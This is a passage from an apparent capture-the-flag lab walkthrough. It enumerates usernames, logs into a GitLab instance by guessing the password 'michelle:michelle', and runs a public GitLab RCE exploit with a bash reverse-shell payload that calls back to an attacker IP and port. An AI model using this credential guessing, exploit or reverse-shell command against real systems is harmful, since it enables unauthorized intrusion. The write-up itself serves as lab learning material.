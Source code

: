 ```
Author: @4DoniiS [https://github.com/4D0niiS]
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


200
[+] The username webmaster exists!
200
[+] The username root exists!
200
[+] The username michelle exists!

```

Now that we have valid users

I'll try loggin in as `michelle` using her name as the password also `michelle:michelle`
![image](https://user-images.githubusercontent.com/113513376/214967465-f05e2a14-7bbb-4182-bf3b-29af7e1bbb82.png)

Boom!!! It worked
![image](https://user-images.githubusercontent.com/113513376/214967520-d4cf963f-493f-4459-a2a5-d3ff077a489a.png)

Now searching google for a way to get shell leads to this remote code execution exploit [Exploit](https://www.exploit-db.com/exploits/49951)

So lets try it out 

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Breakout]
└─$ python3 exploit.py --help                                         
usage: exploit.py [-h] -u U -p P -c C -t T

GitLab < 13.10.3 RCE

options:
  -h, --help  show this help message and exit
  -u U        Username
  -p P        Password
  -c C        Command
  -t T        URL (Eg: http://gitlab.example.com)
```

Now we know the arguments to pass lets try it out then

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Breakout]
└─$ python3 exploit.py -u michelle -p michelle -t http://192.168.168.182/ -c "bash -c 'bash -i >& /dev/tcp/192.168.45.5/1337 0>&1'"
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

It hangs there but back on our listener we get a connection
